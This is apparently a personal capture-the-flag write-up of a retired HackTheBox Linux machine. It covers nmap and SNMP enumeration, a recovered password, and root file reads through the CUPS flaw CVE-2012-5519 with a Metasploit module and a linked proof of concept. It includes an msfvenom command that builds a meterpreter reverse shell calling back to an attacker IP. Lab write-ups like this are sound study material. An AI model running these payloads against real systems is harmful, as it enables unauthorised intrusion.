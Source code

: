 ```yaml
---
tags:
  - HTB
  - Retired
  - Linux
  - CUPS
creation date: 2021-09-27
Date Completed: 2024-08-31
CVEs: CVE-2012-5519
URL: https://app.hackthebox.com/machines/400
IP: 10.129.44.204
---
```

## Information Gathering
### Nmap (Ports/Services)
```
sudo nmap -sT -sV -sC -O -p- -T4 --min-rate=1000 $IP  
```

```
23/tcp open  telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270: 
|     JetDirect
|     Password:
|   NULL: 
|_    JetDirect
```

```
sudo nmap 10.129.44.204 -T4 -sU -p 161 -A
```

```
161/udp open  snmp    SNMPv1 server (public)
```

### udp-proto-scanner
```session
udp-proto-scanner.pl 10.129.44.204
```

Received reply to probe snmp-public (target port 161) from 10.129.44.204:161: 302902010004067075626c6963a21c02044c33a756020100020100300e300c06082b060102010105008100

### SNMP

![[Pasted image 20240831100516.png]]
![[Pasted image 20240831100541.png]]


```
P@ssw0rd@123!!123
```


```
onesixtyone -c /usr/share/wordlists/seclists/Discovery/SNMP/common-snmp-community-strings.txt 10.129.44.204
```


![[Pasted image 20240831100600.png]]
![[Pasted image 20240831100727.png]]

## Get a better Shell

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.15.64 LPORT=1337 -f ELF > shell
```

## Priv Esc

ls -lah /etc/
cups stood out to me.
![[Pasted image 20240831104656.png]]

ss -antp
tells me there's website running
![[Pasted image 20240831104735.png]]


i tried portfwd in metasploit but it didn't work. so I curled the website on the victim system which got me the cups version. from there i reaseared CUPS v1.6.1 and found a CVE, PoC, and a metasploit module

![[Pasted image 20240831104841.png]]
![[Pasted image 20240831104856.png]]

```
post/multi/escalate/cups_root_file_read
```

also works:
https://github.com/p1ckzi/CVE-2012-5519/blob/main/cups-root-file-read.sh

